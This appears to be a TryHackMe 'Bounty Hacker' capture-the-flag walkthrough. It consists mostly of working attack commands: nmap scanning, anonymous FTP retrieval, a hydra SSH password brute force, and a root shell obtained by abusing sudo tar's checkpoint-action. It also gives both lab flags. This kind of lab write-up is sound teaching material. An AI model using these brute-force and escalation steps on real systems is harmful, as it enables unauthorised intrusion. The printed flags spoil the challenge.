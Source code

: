 # THM - Bounty Hacker
- IP Target: `10.10.81.242`

## Scanning
```bash
→ ping -c 4 10.10.81.242

→ nmap -sC -sV -oN nmap.txt 10.10.81.242
```

## Enumeration
```bash
→ ftp 10.10.81.242
# Name: anonymous
# I found 2 intersting files: locks.txt and task.txt

→ get locks.txt
→ get task.txt
# Download these file into my local machine.
```

## Password Attack
```bash
hydra -l lin -P locks.txt ssh://10.10.81.242
# login: lin, password: RedDr4gonSynd1cat3
```

## Find user flag
```bash
ssh lin@10.10.81.242

cat user.txt
# Flag_1: THM{CR1M3_SyNd1C4T3}
```

## Privilage Escalation
```bash
sudo -l
# (root) /bin/tar

# Use this website: https://gtfobins.github.io => tar => sudo

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

python3 -c 'import pty;pty.spawn("/bin/bash")'

cat /root/root.txt
# Flag_2: THM{80UN7Y_h4cK3r}
```